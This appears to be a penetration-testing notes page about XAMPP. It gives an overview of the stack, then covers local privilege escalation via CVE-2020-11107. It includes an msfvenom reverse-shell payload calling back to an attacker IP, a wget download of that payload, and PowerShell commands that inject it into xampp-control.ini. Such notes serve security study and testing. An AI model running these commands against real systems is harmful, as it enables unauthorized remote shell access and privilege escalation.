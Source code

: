 ```yaml
---
layout:
  width: default
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
  metadata:
    visible: true
---
```


# XAMPP

[XAMPP](https://www.apachefriends.org/) is a free, open-source, cross-platform web server solution stack package developed by Apache Friends. It is designed to provide an easy-to-install and ready-to-use environment for local web development and testing. The package bundles **Apache HTTP Server**, **MariaDB database**, and **interpreters for PHP and Perl**, along with additional tools such as `phpMyAdmin` for database management, **FileZilla** FTP Server, **Mercury Mail Transport System**, and optional components like **Tomcat** for Java applications.

Its architecture is intended for offline use, allowing developers to run fully functional web applications on a local machine without the need for a remote hosting environment. Installation is streamlined, requiring minimal configuration, and the entire stack can be started, stopped, or adjusted through a graphical control panel. XAMPP supports Windows, Linux, and macOS, offering a consistent environment across platforms.

Configuration files for Apache, PHP, and MariaDB are accessible and modifiable, enabling customization of the server environment to suit different development needs. Due to its open configuration by default—such as unrestricted database access and disabled authentication for certain utilities—it is intended strictly for local development and not for production deployment without hardening.

## Local PE

XAMPP versions prior to `7.2.29`, `7.3.x` prior to `7.3.16`, and `7.4.x` prior to `7.4.4` on Windows are affected by a privilege escalation and arbitrary command execution vulnerability ([CVE-2020-11107](https://nvd.nist.gov/vuln/detail/CVE-2020-11107)) due to **insecure permissions on the** `xampp-control.ini` **configuration file**. This file, which defines startup parameters for the XAMPP Control Panel executable (`xampp-control.exe`), is writable by unprivileged users.

By modifying specific entries within `xampp-control.ini`, an attacker with local, non-administrative access can alter executable paths or parameters to include malicious commands. When the XAMPP Control Panel is subsequently launched—either by an administrative user or during normal operation—these injected commands are executed with the privileges of the launching user. A working [PoC](https://www.exploit-db.com/exploits/50337) is available.

{% code overflow="wrap" %}
```bash
# Generate a payload 
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.45.241 LPORT=80 -f exe -o shell.exe
```
{% endcode %}

```bash
# Transfer the payload to the target
> wget http://192.168.45.241:443/shell.exe -o shell.exe

# Define the target file
> $file = "C:\xampp\xampp-control.ini"

# Define the target line (second line: Editor=notepad.exe)
> $find = ((Get-Content $file)[2] -Split "=")[1]

# Define the payload
> $replace = "C:\users\mike\shell.exe"

# Inject the payload binary
> (Get-Content $file) -replace $find, $replace | Set-Content $file
```
